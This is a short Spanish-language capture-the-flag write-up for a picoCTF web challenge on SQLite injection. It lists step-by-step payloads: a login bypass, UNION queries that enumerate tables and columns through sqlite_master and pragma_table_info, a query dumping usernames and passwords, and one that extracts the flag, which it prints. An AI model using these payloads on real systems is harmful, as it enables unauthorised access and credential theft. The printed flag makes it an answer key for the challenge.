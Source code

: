 ## Descripcion
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

## Pistas 
SQLILITE
****** 
## Solucion
Entrar al sitio
```sqlite
--password :
' OR  '' = '';
```
listar todas las tablas
```sql
' or true union SELECT '1' , '2', tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';

```
obtener nombres de columnas
```sql
' or true union SELECT 1, 2, name FROM pragma_table_info('users');
' or true union SELECT id, name, password FROM users;
--moreRandOMN3ss

' or true union SELECT 1, 2, name FROM pragma_table_info('more_table');
```
conseguir bandera
```sqlite
' or true union SELECT id, flag, 3 FROM more_table;
```
## bandera
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}

## Notas adicionales 

## Referencias